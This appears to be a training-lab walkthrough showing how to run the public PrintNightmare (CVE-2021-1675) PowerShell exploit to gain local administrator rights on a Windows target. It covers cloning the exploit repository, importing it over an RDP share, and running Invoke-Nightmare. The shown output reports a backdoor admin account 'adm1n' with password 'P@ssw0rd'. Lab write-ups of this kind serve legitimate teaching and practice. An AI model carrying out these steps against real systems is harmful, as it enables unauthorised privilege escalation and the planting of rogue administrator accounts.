 We will use PrintNightmare to elevate our privileges on this target.  

Answer the questions below

There are many different implementations of PrintNightmare available. You are advised to use a [PowerShell version](https://github.com/calebstewart/CVE-2021-1675) written by [Caleb Stewart](https://twitter.com/calebjstewart) and [John Hammond](https://twitter.com/_JohnHammond).  

 Completed

Navigate to the `/tmp` directory of your attacking VM, then clone the [repository](https://github.com/calebstewart/CVE-2021-1675).

Remember that `/drive:/tmp,share` argument in the `xfreerdp` command? It's about to come in useful.  

 Completed

Inside your RDP session, open a new PowerShell Window.  

 Completed

The repository that we downloaded contains a PowerShell (`.ps1`) script that needs to be imported.

We can import it using:  
`. \\tsclient\share\CVE-2021-1675\CVE-2021-1675.ps1`

_Make sure to include the dot at the start!_

This uses dot-syntax to import any functions exposed by the script. We are using `\\tsclient\share` to reference the share that we created. This allows us to view (and thus import) files that are stored in the /tmp folder of our own attacking machine!  

 Completed

Only one thing left to do: run the exploit!

We can start the ball rolling by executing `Invoke-Nightmare`.

Exploiting PrintNightmare

```powershell
PS C:\Users\Atlas> Invoke-Nightmare
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
```

 Completed

Notice that our payload mentions creating a new user called `adm1n` with a password of `P@ssw0rd`? This is the default behaviour when using this exploit; however, we could have created our own payload and substituted that in should we have preferred another method of exploitation.

Regardless, we can now make use of our brand new admin account!  

 Completed
